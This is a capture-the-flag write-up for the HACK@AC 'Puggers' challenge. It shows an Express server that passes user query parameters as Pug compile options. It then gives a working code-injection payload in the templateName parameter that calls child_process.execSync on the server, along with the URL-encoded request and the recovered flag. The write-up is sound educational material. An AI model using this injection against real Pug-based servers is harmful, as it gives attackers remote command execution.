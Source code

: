 
(for HACK@AC participants that want the writeup for Puggers)

### Challenge writeup

This is the source code for the challenge:

```javascript
const express = require("express")
const pug = require("./pug.js")
const runtimeWrap = require('pug-runtime/wrap');
const fs = require("fs")

const PORT = 3000

const app = express()

app.get("/", (req, res) => {
  const data = req.query
  const template = fs.readFileSync("./views/index.pug").toString()
  const out = runtimeWrap(pug.compileBody(template, data).body)(data)
  res.send(out)
})

app.listen(PORT, () => {
  console.log(`Server is running on port ${PORT}`)
})
```

`req.query` is passed to `compileBody` options, so the user can control the `options` parameter. Based on the above
analysis, this is the payload:

```javascript
template() { return global.process.mainModule.require("child_process").execSync("cat flag.txt").toString() } function asdf
```

URL encode it and set it as the `templateName` query parameter:

```
.../?templateName=template()%20%7B%20return%20global.process.mainModule.require(%22child_process%22).execSync(%22cat%20flag.txt%22).toString()%20%7D%20function%20asdf
```

`ACSI{pug_rc3_i5_n0t_p0ggers}`

---

OK back to the CVE!

# Post HACK@AC

A while after HACK@AC (it wasn't solved during the CTF), [OwOverflow](https://github.com/molangning) managed to solve it.
